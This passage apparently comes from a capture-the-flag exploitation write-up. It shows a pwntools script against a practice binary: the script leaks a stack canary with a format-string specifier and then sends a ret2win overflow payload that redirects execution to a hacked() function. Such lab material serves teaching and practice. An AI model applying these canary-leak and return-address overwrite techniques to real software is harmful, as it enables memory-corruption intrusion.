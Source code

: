 We can use the following instructions in our exploit above.

`exploit.py`:

```python
from pwn import *


# Allows you to switch between local/GDB/remote from terminal
def start(argv=[], *a, **kw):
    if args.GDB:  # Set GDBscript below
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:  # ('server', 'port')
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:  # Run locally
        return process([exe] + argv, *a, **kw)


# Specify your GDB script here for debugging
# First break is the address of printf() to make sure the offset of the canary is correct.
# Second break is the jump if equel (je) of the canary.
# Third break is at the return instruction to make sure everything is alligned correctly.
gdbscript = '''
init-pwndbg
b *0x0804921f
b *0x08049253
b *0x0804925e
continue
'''.format(**locals())


# Set up pwntools for the correct architecture
exe = './canary'
# This will automatically get context arch, bits, os etc
elf = context.binary = ELF(exe, checksec=False)
# Enable verbose logging so we can see exactly what is being sent (info/debug)
context.log_level = 'debug'

# ===========================================================
#                    EXPLOIT GOES HERE
# ===========================================================

# Start program
io = start()

offset = 64  # Canary offset

# Leak canary value (23rd on stack)
io.sendlineafter(b'!', '%{}$p'.format(23).encode())
io.recvline()  # Blank line
canary = int(io.recvline().strip(), 16)
info('canary = 0x%x (%d)', canary, canary)

# Build payload (ret2win)
payload = flat([
    offset * b'A',  # Pad to canary (64)
    canary,  # Overwrite our leaked canary (4)
    12 * b'A',  # We need 12 more bytes in order to pad to Ret pointer (12)
    elf.symbols.hacked  # Divert execution to hacked() function -- Ret2win (64 + 4 + 12 = 80)
])

# Send the payload
io.sendlineafter(b':P', payload)

# Get our flag/shell
```